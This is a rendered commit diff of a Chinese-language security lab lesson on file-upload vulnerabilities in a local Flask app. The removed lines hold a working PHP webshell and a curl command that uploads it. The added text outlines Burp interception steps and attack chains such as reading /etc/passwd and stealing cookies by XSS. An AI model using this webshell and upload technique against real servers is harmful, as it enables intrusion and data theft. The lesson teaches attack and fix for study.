

Before and after one commit to mcc0624/AI-Security-Lab, a Markdown page: .claude/class/day-04-file-upload.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: add day-04 file upload class doc with verified POC

````diff
--- a/.claude/class/day-04-file-upload.md
+++ b/.claude/class/day-04-file-upload.md
@@ -134,91 +147,46 @@ curl "http://127.0.0.1:5000/static/uploads/cmd.php?cmd=id"
 
-### 步骤 1：设置代理并拦截
-
-1. 浏览器设置代理 `127.0.0.1:8080`
-2. Burp Suite Proxy → Intercept 开启
-3. 登录系统 → 进入上传页面
-
-### 步骤 2：上传并修改请求
-
-1. 选择一个图片文件上传
-2. Burp 拦截到 POST 请求
-3. 修改 `filename` 为 `webshell.php`
-4. 修改文件内容为：
-   ```php
-   <?php phpinfo(); ?>
-   ```
+1. 登录后访问上传页面，选择一个图片文件上传
+2. 在 Burp 中拦截 POST /upload 请求
+3. 修改请求中的 `filename="image.png"` 为 `filename="shell.php"`
+4. 修改文件内容为 PHP webshell 代码
 5. 放行请求
-
-### 步骤 3：访问 webshell
-
-```
-http://127.0.0.1:5000/static/uploads/webshell.php
-```
-
-### 步骤 4：验证命令执行
-
-```bash
-# 上传带命令执行的 webshell
-curl http://127.0.0.1:5000/upload \
-  -b /tmp/cookies.txt \
-  -F "file=@-;filename=cmd.php" <<< '<?php system($_GET["c"]);?>'
-
-# 执行系统命令
-curl "http://127.0.0.1:5000/static/uploads/cmd.php?c=id"
-```
+6. 访问 `http://127.0.0.1:5000/static/uploads/shell.php` 确认可以访问
 
 ---
 
 ## 六、POC 代码详细解释
 
-### POC 1 详解
+### POC 2 详解：上传流程
 
-```bash
-curl http://127.0.0.1:5000/upload \
-  -b /tmp/cookies.txt \
-  -F "file=@/tmp/shell.py"
+```
+用户请求 POST /upload → 携带文件 shell.py
+
+服务器收到请求：
+1. 检查用户是否登录（有 Cookie）→ 通过
+2. 获取上传的文件对象 → file.filename = "shell.py"
+3. 拼接保存路径 → static/uploads/shell.py
+4. 保存文件 → file.save("static/uploads/shell.py")
+5. 返回 URL → /static/uploads/shell.py
+                    ↑
+               没有检查 .py 后缀！没有检查文件内容！
+
+攻击者访问 /static/uploads/shell.py：
+  → Flask 返回文件内容
+  → 如果该文件是可执行脚本，服务器可能执行它
 ```
 
-| 参数 | 含义 |
-|------|------|
-| `-F` | multipart/form-data 格式上传文件 |
-| `file=` | 表单字段名，与服务端 `request.files['file']` 对应 |
-| `@/tmp/shell.py` | `@` 表示上传本地文件 `/tmp/shell.py` |
-| `-b` | 携带 cookie（需要登录态） |
+### 漏洞组合利用
 
-**攻击流程**：
 ```
-攻击者                 服务器
-  │                     │
-  │── POST /upload ────→│  上传 shell.py
-  │   (shell.py)        │
-  │                     │── 保存到 static/uploads/shell.py
-  │                     │   未校验文件类型！
-  │                     │
-  │── GET /static/ ────→│  直接访问
-  │   uploads/shell.py   │── 返回文件内容
-  │                     │   静态目录无防护！
+上传 webshell → 获取服务器权限 → 读取 /etc/passwd
+上传恶意脚本 → XSS 攻击 → 窃取用户 Cookie
+上传 HTML 文件 → 钓鱼页面 → 骗取其他用户密码
 ```
-
-### POC 2 详解：真正的 Webshell
-
-```bash
-# PHP webshell 内容
-<?php system($_GET['cmd']); ?>
-```
-
-**执行逻辑**：
-- `system()`：PHP 函数，执行系统命令
-- `$_GET['cmd']`：从 URL 参数获取要执行的命令
-- 访问 `shell.php?cmd=id` 即执行 `id` 命令
-
-**为什么能成功**：
-1. 服务端未校验文件后缀 → 允许上传 `.php` 文件
-2. 使用原始文件名 → webshell 路径可预测
-3. 目录可访问 → 直接通过 URL 访问并执行
 
 ---
 
 ## 七、修复方案
 
+创建 `fix/file_handler_fix.py`：
+
 ```python
````
Also changed, not shown: other parts of .claude/class/day-04-file-upload.md (+132 -115 lines).
